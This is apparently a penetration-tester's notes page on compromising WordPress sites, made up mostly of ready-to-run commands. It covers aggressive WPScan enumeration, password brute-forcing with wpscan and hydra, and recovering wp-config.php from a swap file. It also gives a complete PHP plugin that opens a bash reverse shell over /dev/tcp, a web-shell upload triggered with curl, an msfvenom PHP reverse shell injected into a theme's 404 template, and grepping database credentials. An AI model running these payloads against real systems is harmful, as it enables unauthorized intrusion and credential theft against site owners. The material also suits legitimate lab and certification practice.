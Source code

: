 #### WPScan
```bash - kali
wpscan -e ap,at,tt,cb,dbe,u,m --detection-mode aggressive --plugins-detection aggressive -t 30 --url http://$TARGET
```

#### Password Cracking
```bash - kali
wpscan --url http://$TARGET -U admin -P /usr/share/seclists/Passwords/Common-Credentials/10k-most-common.txt
```

#### wp-config.php.swp file
```bash - kali
vim -r .wp-config.php.swp
```

```bash - kali
esc
```

```bash - kali
:w wp-config.txt
```

Now viewing the contents are much easier in wp-config.txt file.

#### WORDPRESS PLUGIN SHELL

[https://www.sevenlayers.com/index.php/179-wordpress-plugin-reverse-shell](https://www.sevenlayers.com/index.php/179-wordpress-plugin-reverse-shell)

```bash - kali
mousepad reverseshell-plugin.php
```

```php
<?php

/**
* Plugin Name: Reverse Shell Plugin
* Plugin URI:
* Description: Reverse Shell Plugin
* Version: 1.0
* Author: Vince Matteo
* Author URI: [http://www.sevenlayers.com](http://www.sevenlayers.com)
*/

exec("/bin/bash -c 'bash -i >& /dev/tcp/$KALI/443 0>&1'");

?>
```

```bash - kali
zip reverseshell-plugin.zip ./reverseshell-plugin.php
```

![[rlwrap]]

Plugins > Add new > Upload > Install now
* If this fails, try doing [[Wordpress#Webshell method]]

Now just click on "Activate Plugin" and done!

#### Webshell method
```
cp /usr/share/seclists/Web-Shells/WordPress/plugin-shell.php .
```

```
sudo zip plugin-shell.zip plugin-shell.php
```

WordPress > Plugins > add New > Upload > Browse > plugin-shell.zip > Install now

Even if this says it failed to install, STILL RUN THE CURL COMMAND!
![[Pasted image 20220601122227.png]]

```
curl http://$TARGET/wp-content/plugins/plugin-shell/plugin-shell.php?cmd=whoami
```

#### php template shell
```bash - kali
msfvenom -p php/reverse_php lhost=$KALI lport=443 -f raw
```

In WordPress, go to Appearance > Theme Editor, choose a page to edit, here we try the 404 page.

After updating, just access a non-existing page to trigger reverse shell.

#### Finding usernames & passwords:
```bash - kali
cd /var/www/html/wordpress
```

```bash
cat wp-config.php | grep DB
```

#### hydra command against wordpress:

![[TechLexicon/Penetration Testing/Reference/7._Tools/Hydra#Hydra against WordPress]]

FROM BURP:
>log=webdeveloper&pwd=root&wp-submit=Log+In&redirect_to=http%3A%2F%2F$TARGET%2Fwp-admin%2F&testcookie=1

```bash - kali
hydra -l webdeveloper -P /usr/share/seclists/Passwords/Common-Credentials/10k-most-common.txt $TARGET -s 80 -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location' -f
```

![[Port 3306 - MySQL ~#MySQL to Wordpress password]]

[[3._LFI RFI#Wordpress config php]]